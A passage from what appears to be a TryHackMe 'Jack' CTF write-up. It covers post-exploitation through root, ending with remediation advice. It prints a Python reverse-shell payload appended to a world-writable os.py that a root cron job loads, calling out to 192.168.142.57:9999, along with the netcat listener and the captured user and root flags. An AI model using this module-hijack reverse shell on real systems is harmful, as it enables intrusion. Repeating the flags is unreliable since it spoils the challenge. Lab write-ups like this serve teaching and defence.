(Penelope)> sessions 1
[+] Upgrading shell to PTY...
[+] PTY upgrade successful via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/alphax/.penelope/sessions/jack~10.49.180.45-Linux-x86_64/2026_10_29-13_07_42-780.log
──────────────────────────────────────────────────────────────────────────────────────────────
www-data@jack:/var/www/html/wp-admin$ whoami
www-data
www-data@jack:/var/www/html/wp-admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have execution on the target as `www-data`.

---

## Phase 6: Internal Reconnaissance & Lateral Movement

### Inspecting Jack's Home Directory

We begin host enumeration by exploring the home directory of local user `jack`:

```
www-data@jack:/var/www/html/wp-admin$ cd /home/jack
cd /home/jack
www-data@jack:/home/jack$ ls
ls
reminder.txt  user.txt
www-data@jack:/home/jack$ cat reminder.txt
cat reminder.txt

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.

www-data@jack:/home/jack$ cat user.txt
cat user.txt
0052f7829e48752f2e7bf50f1231548a
www-data@jack:/home/jack$
```

We have captured the user flag:
> **User Flag:** `0052f7829e48752f2e7bf50f1231548a`

### Discovering Exposed Backup Private Keys

The message in `reminder.txt` explicitly flags dangerous file permissions on system backups:
> *"Please read the memo on linux file permissions, last time your backups almost got us hacked!"*

We inspect the system backup repository in `/var/backups`:

```
www-data@jack:/home/jack$ cd /var/backups
cd /var/backups
www-data@jack:/var/backups$ ls -l
ls -l
total 768
-rw-r--r-- 1 root root    40960 Jan  9  2020 alternatives.tar.0
-rw-r--r-- 1 root root     9931 Jan  9  2020 apt.extended_states.0
-rw-r--r-- 1 root root      713 Jan  8  2020 apt.extended_states.1.gz
-rw-r--r-- 1 root root       11 Jan  8  2020 dpkg.arch.0
-rw-r--r-- 1 root root       43 Jan  8  2020 dpkg.arch.1.gz
-rw-r--r-- 1 root root      437 Jan  8  2020 dpkg.diversions.0
-rw-r--r-- 1 root root      202 Jan  8  2020 dpkg.diversions.1.gz
-rw-r--r-- 1 root root      207 Jan  9  2020 dpkg.statoverride.0
-rw-r--r-- 1 root root      129 Jan  8  2020 dpkg.statoverride.1.gz
-rw-r--r-- 1 root root   552673 Jan  9  2020 dpkg.status.0
-rw-r--r-- 1 root root   129487 Jan  8  2020 dpkg.status.1.gz
-rw------- 1 root root      802 Jan  9  2020 group.bak
-rw------- 1 root shadow    672 Jan  9  2020 gshadow.bak
-rwxrwxrwx 1 root root     1675 Jan 10  2020 id_rsa
-rw------- 1 root root     1626 Jan  9  2020 passwd.bak
-rw------- 1 root shadow    969 Jan  9  2020 shadow.bak
```

A severe misconfiguration is present on `/var/backups/id_rsa`:
- **Permissions:** `-rwxrwxrwx` (World-readable, world-writable, world-executable).
- **Contents:** Jack's OpenSSH private RSA key.

### SSH Authentication as Jack

We transfer `/var/backups/id_rsa` to our attack machine (via Python HTTP server or `cat`), enforce strict SSH key permissions (`chmod 600`), and connect via SSH:

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ wget http://10.49.180.45:8000/id_rsa            
--2026-10-29 13:47:08--  http://10.49.180.45:8000/id_rsa
Connecting to 10.49.180.45:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa                  100%[=============================>]   1.64K  --.-KB/s    in 0s      

2026-10-29 13:47:08 (208 MB/s) - ‘id_rsa’ saved [1675/1675]

                                                                                              
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ chmod 600 id_rsa    
                                                                                              
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ ssh -i id_rsa jack@10.49.180.45               
The authenticity of host '10.49.180.45 (10.49.180.45)' can't be established.
ED25519 key fingerprint is: SHA256:91RPPbrI5UuL0FaDNrDEVlL+bIOB9YABCTtC3ttyW1U
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.49.180.45' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

143 packages can be updated.
92 updates are security updates.


Last login: Mon Nov 16 14:27:49 2020 from 10.11.12.223
jack@jack:~$ whoami
jack
jack@jack:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```

We now have persistent, full SSH access as user `jack`.

---

## Phase 7: Privilege Escalation to Root

### Inspecting Local Applications in `/opt`

Auditing the `/opt` directory reveals a custom monitoring script:

```
jack@jack:~$ cd /opt
jack@jack:/opt$ ls
statuscheck
jack@jack:/opt$ cd statuscheck/
jack@jack:/opt/statuscheck$ ls
checker.py  output.log
jack@jack:/opt/statuscheck$ cat checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

The script `checker.py` imports Python's standard `os` module and executes a local HTTP head request, appending the result to `/opt/statuscheck/output.log`. The timestamp and content of `output.log` confirm that this script is executed automatically and continuously by a root cron job.

### Auditing Python Library File Permissions

Python searches for imported modules in directory locations defined by `sys.path`. When `import os` is executed by `/usr/bin/python`, the interpreter resolves `/usr/lib/python2.7/os.py`.

We locate all instances of `os.py` on the system and check their permissions:

```
jack@jack:/opt/statuscheck$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.5/os.py
/usr/lib/python3.5/encodings/palmos.py
jack@jack:/opt/statuscheck$ ls -l /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Nov 16  2020 /usr/lib/python2.7/os.py
```

#### Analyzing the Critical Misconfiguration
- **Path:** `/usr/lib/python2.7/os.py`
- **Ownership:** `root:family`
- **Permissions:** `-rw-rw-r-x` (Read and write permissions for the `family` group)

Looking back at our `id` command:
```bash
jack@jack:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),...,1001(family)
```

User `jack` is a member of the **`family`** group (`GID 1001`), granting us write access to Python's core `os` module.

### Weaponizing Python Module Hijacking

When the root cron job runs `/usr/bin/python /opt/statuscheck/checker.py`, Python compiles and executes `/usr/lib/python2.7/os.py` in the security context of the process owner (`root`, `UID 0`).

We append an interactive socket reverse shell payload to the end of `/usr/lib/python2.7/os.py`:

```
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.142.57",9999))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)    
pty.spawn("/bin/bash")
```

### Spawning the Interactive Root Shell

On our local workstation, start a Netcat listener on port `9999` with `rlwrap` for line editing:

```bash
rlwrap nc -lvnp 9999
```

When the scheduled task runs, the Python interpreter loads our modified `os.py` module, executing the injected reverse shell code as `root`:

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ rlwrap nc -lvnp 9999                                        
listening on [any] 9999 ...
connect to [192.168.142.57] from (UNKNOWN) [10.49.180.45] 50298
root@jack:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jack:~# whoami
whoami
root
root@jack:~# pwd
pwd
/root
root@jack:~# ls
ls
root.txt
root@jack:~# cat root.txt
cat root.txt
b8b63a861cc09e853f29d8055d64bffb
```

> **Root Flag:** `b8b63a861cc09e853f29d8055d64bffb`

---

## Flag & Question Summary

| Question | Value / Flag |
| :--- | :--- |
| **Gain initial access and obtain the user flag.** | `0052f7829e48752f2e7bf50f1231548a` |
| **Escalate your privileges to root. What is the root flag?** | `b8b63a861cc09e853f29d8055d64bffb` |

---

## Remediation & Hardening Recommendations

1. **Disable XML-RPC:**
   Block all traffic to `/xmlrpc.php` at the web server layer unless specifically required:
   ```apache
   <Files xmlrpc.php>
       Order Deny,Allow
       Deny from all
   </Files>
   ```

2. **Patch WordPress Plugins & Enforce Least Privilege:**
   Update the **User Role Editor** plugin to the latest version to prevent unauthorized parameter tampering and role elevation.

3. **Disable Built-in File Editing:**
   Harden WordPress by adding the following directive to `wp-config.php`, which disables the Theme and Plugin Editors:
   ```php
   define('DISALLOW_FILE_EDIT', true);
   ```

4. **Remediate Insecure Backup Permissions:**
   Never store raw SSH private keys in backup directories. Restrict backup directory permissions to `root:root` with mode `700` (`chmod 700 /var/backups`), and ensure all archived keys maintain `600` permissions.

5. **Secure Python Standard Libraries:**
   Core interpreter files in `/usr/lib/python*` must belong strictly to `root:root` with standard read/execute permissions (`chmod 644 /usr/lib/python2.7/os.py`, `chown root:root /usr/lib/python2.7/os.py`).
